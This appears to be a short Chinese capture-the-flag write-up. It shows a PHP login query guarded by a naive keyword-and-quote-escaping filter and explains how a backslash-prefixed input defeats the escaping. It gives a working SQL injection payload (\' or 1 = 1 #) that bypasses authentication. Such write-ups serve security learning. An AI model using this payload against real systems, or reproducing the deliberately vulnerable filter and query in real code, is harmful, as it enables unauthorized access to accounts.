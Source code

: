 admin 0
===

```php
// WAF
function safe_filter($str)
{
    $strl = strtolower($str);
    if (strstr($strl, 'or 1=1') || strstr($strl, 'drop') ||
        strstr($strl, 'update') || strstr($strl, 'delete')
    ) {
        return '';
    }
    return str_replace("'", "\\'", $str);
}

// Injection Code
$sql = sprintf("SELECT * FROM `user` WHERE `user` = '%s' AND `password` = '%s'",
        $_POST['name'],
        $_POST['password']
);
```

首先看到 WAF 的地方過濾到一些東西，最重要的是單引號被過濾程 `\'`，其實透過注入 `\'` 即可注入成功 `\'` 會被替換成 `\\'`，所以`\`跳脫的是斜線:`\`而非單引號:`'`。

Payload:
```
user: \' or 1 = 1 #
pwd : 123456
```

## 授權聲明
[![copyright © 2019 By MksYi](https://img.shields.io/badge/copyright%20©-%202019%20By%20MksYi-blue.svg)](https://mks.tw/)
[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)